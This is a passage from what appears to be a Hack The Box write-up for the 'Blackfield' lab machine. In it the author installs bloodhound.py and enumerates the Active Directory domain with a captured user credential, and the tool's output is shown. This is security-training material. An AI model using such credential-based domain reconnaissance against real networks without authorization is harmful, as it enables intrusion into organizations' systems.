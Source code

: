 ### Privilege Escalation

#### Domain Enumeration with BloodHound

At this point we're out of options with SMB. Since we have one valid set of user credentials for the box, we can utilize BloodHound to enumerate the target domain. First we install `bloodhound.py` using `apt` and then we utilize our current credentials to perform enumeration of the target domain.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ sudo apt install bloodhound.py

┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (blackfield.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 08S
```

Now that we have created a bundle of information for the current domain we can analyze it using BloodHound.
